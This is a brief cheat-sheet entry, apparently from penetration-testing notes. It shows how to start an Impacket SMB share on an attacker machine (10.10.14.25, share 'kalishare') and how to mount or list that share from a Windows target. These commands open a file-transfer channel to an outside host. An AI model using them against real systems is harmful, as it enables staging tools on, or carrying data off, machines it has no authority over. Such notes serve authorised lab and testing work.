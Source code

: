 # smbserver.py



```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
ls -la x:\
```

```text
impacket-smbserver kalishare `pwd`
dir \\10.10.14.25\kalishare
```

